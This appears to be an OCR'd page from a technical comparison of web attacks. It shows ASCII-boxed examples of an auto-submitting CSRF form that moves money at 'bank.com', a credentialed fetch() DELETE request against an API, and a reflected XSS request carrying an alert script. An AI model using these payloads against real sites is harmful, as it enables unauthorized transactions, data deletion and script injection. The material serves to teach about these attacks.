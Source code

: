 ## Technical Implementation Comparison

### CSRF Attack Implementations

#### Simple Form-Based CSRF
```ascii
Attacker Site Structure:
┌─────────────────────────────────────────┐
│ <html>                                  │
│   <body onload="document.forms[0].      │
│                 submit()">              │
│     <form action="https://bank.com/     │
│           transfer" method="POST">      │
│       <input name="to" value="evil">   │
│       <input name="amount" value="1000">│
│     </form>                             │
│   </body>                              │
│ </html>                                 │
└─────────────────────────────────────────┘
```

#### JSON API CSRF
```ascii
Modern API Attack:
┌─────────────────────────────────────────┐
│ fetch('https://api.target.com/users',   │
│   {                                     │
│     method: 'DELETE',                   │
│     credentials: 'include',             │
│     headers: {                          │
│       'Content-Type': 'application/json'│
│     },                                  │
│     body: JSON.stringify({id: 'victim'})│
│   }                                     │
│ );                                      │
└─────────────────────────────────────────┘
```

### XSS Attack Implementations

#### Reflected XSS Flow
```ascii
Request Flow:
┌─────────────┐    GET /search?q=<script>  ┌─────────────┐
│   Victim    │ ─────────alert('XSS')──────▶│   Target    │
│   Browser   │                             │   Server    │
└─────────────┘                             └─────────────┘
       ▲                                           │
       │                                           │
       │ HTTP/1.1 200 OK                          │
       │ <h1>Results for: <script>                │
       │ alert('XSS')</script></h1>               │
       └───────────────────────────────────────────┘
```
